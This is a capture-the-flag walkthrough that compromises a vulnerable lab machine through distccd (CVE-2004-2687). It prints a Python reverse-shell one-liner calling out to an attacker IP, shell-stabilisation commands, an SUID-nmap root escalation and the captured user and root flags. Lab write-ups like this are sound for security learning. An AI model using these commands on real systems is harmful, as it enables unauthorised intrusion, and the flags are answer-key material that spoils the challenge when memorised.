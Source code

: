 ```yaml
---
sticker: emoji//1f613
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 139  | SMB     |
| 445  | SMB     |
| 3632 | distccd |



# RECONNAISSANCE
---

FTP anonymous login is enabled, let's check it out:


![](Pasted%20image%2020250402152900.png)

Nothing in here, `smb` anonymous login is not enabled unfortunately, let's keep on going, if we remember the scan, we got the following on port `3632`:

```
PORT     STATE SERVICE VERSION
3632/tcp open  distccd distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```

We got something called `distccd`, `distcc` is a tool designed to distribute compilation of C/C++/Objective-C code across multiple machines on a network. It speeds up large builds by parallelizing the workload.

Since we got `distccd v1`, we can search for an exploit regarding that version:

![](Pasted%20image%2020250402153430.png)




# EXPLOITATION
---


This is a pretty old CVE, we are facing `CVE-2004-2687`, we can search for an exploit in GitHub:

![](Pasted%20image%2020250402153623.png)

Link: https://github.com/angelpimentell/distcc_cve_2004-2687_exploit


If we use the exploit, we can see this:

![](Pasted%20image%2020250402153655.png)


We can get ourselves an interactive shell: 

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.239",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

If we check up our listener:

![](Pasted%20image%2020250402154059.png)

Let's proceed with privesc.



# PRIVILEGE ESCALATION
---


First step is to stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

We can read `user.txt` now:

```
daemon@lame:/$ cat /home/makis/user.txt
6c8d8478b697ee1e975fb840878c905a
```

Let's use linpeas for a way to get into root:

![](Pasted%20image%2020250402154841.png)

We got `nmap` binary set with a `4000 SUID`, let's check `gtfobins`:

![](Pasted%20image%2020250402155155.png)

So, we need to do the following in order to get root:

```
/usr/bin/nmap --interactive
!sh
```

![](Pasted%20image%2020250402155218.png)

We can finally read `root.txt`:

```
sh-3.2# cat /root/root.txt
259db45cfc8e1723f21fb0387f48ff5f
```


![](Pasted%20image%2020250402155300.png)


